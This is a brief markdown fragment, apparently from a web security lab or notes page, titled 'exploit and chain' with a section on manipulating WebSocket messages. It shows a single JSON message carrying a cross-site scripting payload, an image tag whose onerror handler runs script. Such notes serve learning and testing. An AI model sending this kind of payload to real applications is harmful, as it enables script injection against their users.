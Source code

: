 # exploit and chain
## Manipulating WebSocket messages

```json
{"message":"<img src=1 onerror='alert(1)'>"}
```

